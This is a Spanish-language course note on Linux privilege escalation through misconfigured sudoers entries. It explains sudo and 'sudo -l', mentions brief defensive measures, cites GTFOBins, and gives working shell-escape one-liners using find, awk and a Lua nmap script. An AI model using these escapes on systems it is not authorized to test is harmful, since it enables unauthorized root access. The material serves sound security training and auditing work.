 # Abusando de privilegios a nivel de Sudoers

Tags: #Linux #Sudoers #Escalada #Root #Privilegios 

El archivo **/etc/sudoers** es un archivo de configuración en sistemas Linux que se utiliza para controlar el acceso de los usuarios a las diferentes acciones que pueden realizar en el sistema. Este archivo contiene una lista de usuarios y grupos de usuarios que tienen permisos para realizar tareas de administración en el sistema.

El comando “**sudo**” permite a los usuarios ejecutar comandos como superusuario o como otro usuario con privilegios especiales. El archivo sudoers especifica qué usuarios pueden ejecutar qué comandos con sudo y con qué privilegios.

Abusar de los privilegios a nivel de sudoers es una técnica utilizada por los atacantes para elevar su nivel de acceso en un sistema comprometido. Si un atacante es capaz de obtener acceso a una cuenta con permisos de sudo en el archivo sudoers, puede ejecutar comandos con privilegios especiales y realizar acciones maliciosas en el sistema.

El comando “**sudo -l**” es utilizado para listar los permisos de sudo de un usuario en particular. Al ejecutar este comando, se muestra una lista de los comandos que el usuario tiene permiso para ejecutar y bajo qué condiciones.

Para prevenir el abuso de privilegios a nivel de sudoers, se recomienda mantener los permisos adecuados en el archivo sudoers y limitar el número de usuarios con permisos de sudo. Además, es importante monitorear regularmente el archivo sudoers y buscar cambios inesperados o sospechosos en su contenido.

A continuación, se os comparte el recurso GTFOBINS el cual utilizamos en esta clase para detectar comandos que potencialmente puedan ser explotados para elevar nuestro privilegio de usuario:

- **GTFOBins**: [https://gtfobins.github.io/](https://gtfobins.github.io/)


## Sudoers 

En la pagina de GTFOBins buscamos el comando y la pestaña de **SUDO**
* Directorios  Linux con capacidad de escritura
	* **/tmp/**
	* **/dev/shm/**

```bash
❯ sudo -l                                          # Ver que permisos tenemos en el sudoer y poder ejecutar como root algun comando
	
	# (ALL : ALL) ALL
	# ALL=(root) NOPASSWD: /usr/bin/find
	
	# El comando que podemos ejecutar lo debemos de hacer asi:
❯ sudo find . -exec /bin/sh \; -quit
❯ sudo awk 'BEGIN {system("/bin/sh")}' 
```

También puede que nos salga en el Sudoers la siguiente información.

```bash
❯ sudo -l                                                    # Si encontramos esto, es que podemos ejecutar como nuestro usuario el comando 'nmap' siendo 'villa' sin passwd
	
	#  (villa) NOPASSWD: /usr/bin/nmap 

	# El comando que podemos ejecutar lo debemos de hacer asi:
❯ echo 'os.execute("/bin/sh")' > script.nse                  # Este comando lo podemos ejecutar en un dir con capacidad de escritura, el .nse es porque es un script en LUA y ese tipo de archivos los lee nmap
❯ sudo -u villa nmap --script=/tmp/script.nse
```